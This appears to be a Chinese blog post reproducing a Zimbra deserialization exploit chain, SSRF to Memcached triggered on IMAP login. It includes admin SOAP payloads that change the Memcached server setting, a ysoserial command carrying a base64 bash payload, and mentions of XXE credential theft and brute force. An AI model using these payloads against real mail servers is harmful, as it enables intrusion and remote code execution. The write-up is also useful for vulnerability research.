






¶环境搭建
我就不搭建了，其实我按照作者给的搭建过程也没搭建成功，我直接使用一个现成环境测试。
¶利用条件
需要获取到3个变量
zmImap:[accountId]:[folderNo]:[modseq]:[uidvalidity]
阅读本篇文章能了解到：Zimbra, 反序列化
accountId：用户的ID，通过登陆zimbra获取
folderNo：2，代表inbox
modseq和uidvalidity通过登陆imap获取
¶步骤
¶1. 设置zimbraMemcachedClientServerList
Imap的
zimbraMemcachedClientServerList默认为空，无法使用ImapSession的反序列化，所以需要自己命令行设置
web环境当然没办法执行命令，根据作者的思考，ModifyServer可实现通过web修改。
1 | <soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope"><soap:Header><context xmlns="urn:zimbra"><userAgent xmlns="" name="ZimbraWebClient - FF52 (Win)"/><session xmlns="" id="3129324"/><format xmlns="" type="js"/><csrfToken xmlns="">0_62c250d442e69ba3a624ac1bea96dac8648b86f6</csrfToken></context></soap:Header><soap:Body><BatchRequest xmlns="urn:zimbra" onerror="stop"><ModifyConfigRequest xmlns="urn:zimbraAdmin"><a xmlns="" n="zimbraMemcachedClientServerList">127.0.0.1</a></ModifyConfigRequest></BatchRequest></soap:Body></soap:Envelope> |

可通过命令查看是否设置成功
1 | /opt/zimbra/bin/zmprov gs `/opt/zimbra/bin/zmhostname` zimbraMemcachedClientServerList |

¶2. reload
根据作者说法，reload后即可完成Memcached重载
1 | <soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope"><soap:Header><context xmlns="urn:zimbra"><userAgent xmlns="" name="ZimbraWebClient - FF52 (Win)"/><session xmlns="" id="3129324"/><format xmlns="" type="js"/><csrfToken xmlns="">0_62c250d442e69ba3a624ac1bea96dac8648b86f6</csrfToken></context></soap:Header><soap:Body><BatchRequest xmlns="urn:zimbra" onerror="stop"><ReloadMemcachedClientConfigRequest xmlns="urn:zimbraAdmin"></ReloadMemcachedClientConfigRequest></BatchRequest></soap:Body></soap:Envelope> |
web请求响应reloadResponse正常，证明reload成功

但我实测发现并不行，需要zmcontrol restart，坑了很久，也就是说无法reload让zimbra重新加载memcached，到这一步就感觉鸡肋了，但也可能是我姿势有误。
¶3. 获取id
如果能xxe打到localconfig.xml，即拿到ldap_password，此时可通过管理账号创建一个新用户，无需登录即可得到id，如图所示

若未能xxe，则只能通过其他手段（暴破等）获取一个用户账密
¶4. 获取modseq和uidvalidity
使用刚创建的用户登录imap，并select inbox获取；
imap端口为143、993，143个别机器允许明文登录，大多数不可明文登录且有很多奇怪错误，故使用993加密登录
1 | ncat --ssl [ip] 993 |

¶5. 生成payload
下载ysoserial源码，此处作者没说清，需要修改pom.xml，将1.7R2改为1.6R7，然后重新打包，打包过程让同事帮忙完成。
echo justatest > /tmp/justatest.txt
payload从这http://jackson-t.ca/runtime-exec-payloads.html生成
1 | java -jar ysoserial-0.0.6-SNAPSHOT-all.jar MozillaRhino2 "bash -c {echo,ZWNobyBqdXN0YXRlc3QgPiAvdG1wL2p1c3RhdGVzdC50eHQ=}|{base64,-d}|{bash,-i}" > wakaka.obj |
¶6. SSRF to Memcached
使用作者给的请求脚本，修改上述获取的到3个值，和adminToken及域名，利用ssrf向11211发起请求
1 | import requests |
¶7. 触发反序列化
再次imap登陆同一账号并select inbox
查看/tmp目录

¶总结
- 目标需开放
7071 - 能重启zimbra服务器，或
reload成功完成加载
这么一看，妈耶，好鸡肋
但有朋友告诉我，条件允许的话，7071不开放也可行，若7071开放，还能通杀？包括8.8.x，也许他们研究出了ssrf带cookie的操作？
好吧，研究不透，有研究的朋友可以交流一下。
另外说下原作者fnmsd，人超好，问问题回答的很详细，很有耐心，这篇整体的复现遇到很多坑，师傅也帮我各种解答，十分感谢！阿里嘎多！